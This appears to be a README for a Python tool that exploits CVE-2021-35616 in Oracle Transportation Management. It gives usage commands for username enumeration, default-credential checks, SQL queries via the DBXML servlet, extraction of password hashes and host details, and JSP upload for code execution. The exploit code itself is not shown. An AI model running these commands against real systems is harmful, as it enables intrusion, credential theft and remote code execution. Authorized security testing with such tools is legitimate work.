 # OracleOTM
Python tool for exploiting CVE-2021-35616 


The script works in modules, which I implemented in the following order:

►	Username enumeration

►	Search for default credentials

►	Run an SQL query using DBXML servlet

►	Full exploitation and JSP execution

The syntax of the script is as follows: 

.\OracleOTM.py {module} {host TXT file} {additional parameters}



Username enumeration: .\OracleOTM.py enum {hosts TXT file} -u users.txt

Search for default credentials: .\OracleOTM.py default {hosts TXT file}

Run an SQL query using DBXML servlet:	.\OracleOTM.py query {hosts TXT file} -uq EBS.ADMIN -pq Aa123123 -q "select 1 from dual"


I also prepared some predefined queries that I found useful; you can access them directly, as follows:

.\OracleOTM.py query {hosts TXT file} -uq EBS.ADMIN -pq Aa123123 -q os 

    OS – Extract the server’s OS 

    Osuser – Extract the OS user running the DB

    Hostname – DB server host name 

    Hostip – DB server IP address 

    Passwords – Extracts the OTM users and their hashed passwords

     Oraversion – The DB version 

    Dbusershash – The DB users’ password hashes

    Dbfileslocation – The location of the DB files in the OS

Full exploitation and JSP execution:	.\OracleOTM.py exploit {hosts TXT file} -lu EBS.ADMIN -lp Aa123123 -pf "C:\Users\user\Desktop\Header_notepad.jspx"

